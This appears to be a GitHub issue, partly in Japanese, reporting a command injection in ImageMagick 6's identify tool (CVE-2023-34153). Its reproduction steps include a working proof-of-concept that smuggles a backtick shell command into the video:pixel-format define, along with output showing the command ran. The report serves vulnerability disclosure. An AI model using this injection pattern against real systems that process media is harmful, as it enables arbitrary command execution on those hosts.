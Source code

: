 6系のバージョンで確認する場合のメモ

### ImageMagick version
```
convert -version                                                                                
Version: ImageMagick 6.9.11-60 Q16 x86_64 2021-01-25 https://imagemagick.org
```
7以降はmagick <option>を使用、6系はconvert,identifyなどのコマンドを使う。（すでにある7.0のイシューと違うのはそこだけ）。
  
ImageMagick 7.0 use command magick <option> insted of  6.0 convert,identify,etc.


### Operating system
Linux


### Steps to Reproduce
Given a normal video file, namely test.mov, the following demonstrates how command injection happens.

  
```
/home/test/exp
➜ echo 'deadbeef' > test.txt

/home/test/exp
➜ identify -define video:pixel-format="rgba `cat test.txt > /tmp/leak.txt`" test.mov >info.log 

/home/test/exp
➜ tail info.log
test.mov[20] MOV 788x488 788x488+0+0 8-bit TrueColor sRGB 0.030u 0:00.028
test.mov[21] MOV 788x488 788x488+0+0 8-bit TrueColor sRGB 0.030u 0:00.026
test.mov[22] MOV 788x488 788x488+0+0 8-bit TrueColor sRGB 0.030u 0:00.024
test.mov[23] MOV 788x488 788x488+0+0 8-bit TrueColor sRGB 0.020u 0:00.022
test.mov[24] MOV 788x488 788x488+0+0 8-bit TrueColor sRGB 0.020u 0:00.021
test.mov[25] MOV 788x488 788x488+0+0 8-bit TrueColor sRGB 0.020u 0:00.018
test.mov[26] MOV 788x488 788x488+0+0 8-bit TrueColor sRGB 0.020u 0:00.017
test.mov[27] MOV 788x488 788x488+0+0 8-bit TrueColor sRGB 0.020u 0:00.014
test.mov[28] MOV 788x488 788x488+0+0 8-bit TrueColor sRGB 0.020u 0:00.013
test.mov[29] MOV 788x488 788x488+0+0 8-bit TrueColor sRGB 33.0075MiB 0.020u 0:00.011

/home/test/exp
➜ cat /tmp/leak.txt
deadbeef
```

### Appendix
https://github.com/advisories/GHSA-7c5r-cghm-f2jx

https://github.com/ImageMagick/ImageMagick/issues/6338

https://nvd.nist.gov/vuln/detail/CVE-2023-34153

https://imagemagick.org/script/identify.php
